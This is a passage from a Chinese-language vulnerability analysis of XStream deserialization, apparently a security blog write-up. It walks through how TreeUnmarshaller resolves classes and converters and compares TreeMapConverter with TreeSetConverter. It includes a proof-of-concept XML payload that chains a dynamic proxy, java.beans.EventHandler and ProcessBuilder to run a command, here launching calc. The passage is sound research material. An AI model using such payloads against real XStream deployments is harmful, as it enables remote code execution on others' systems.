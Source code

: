 到这里，整个过程就结束了，**总结如下**：

1.  从 com.thoughtworks.xstream.core.TreeUnmarshaller 的 start 函数开始，执行 HierarchicalStreams.readClassType，通过标签名从 Mapper 中获取对应的 class 对象
2.  获得 class 对象后返回至 start 函数，来到 TreeUnmarshaller 的 convertAnother 函数，该方法将上面返回的类转换成 Java 对象
    *   通过 mapper.defaultImplementationOf 方法查找 class 的实现类
    *   通过 converterLookup.lookupConverterForType 根据对应的类寻找正确的转换器 Converter
    *   调用 AbstractReferenceUnmarshaller 的 convert 方法获得对应的对象
    *   根据获取到的 Converter，调用 unmarshal 方法，读取其子节点，并转化成对应的变量，直到所有节点解析完成

另一个 POC：

```bash
<tree-map>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>cmd</string>
                        <string>/C</string>
                        <string>calc</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

这里通过 this.converterLookup.lookupConverterForType 函数得到的 converter 是 TreeMapConverter  
而 TreeMapConverter 的 unmarshal 函数如下，相对来讲对比于 TreeSetConverter 转换器的 unmarshal 函数，少了很多判断条件，即限制

```bash
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    TreeMap result = comparatorField != null ? new TreeMap() : null;
    // 判断是否存在 comparator
    Comparator comparator = this.unmarshalComparator(reader, context, result);
    if (result == null) {
        result = comparator == null ? new TreeMap() : new TreeMap(comparator);
    }

    this.populateTreeMap(reader, context, result, comparator);
    return result;
}
```

其他过程与上面同理

## 6\. CVE-2021-21351
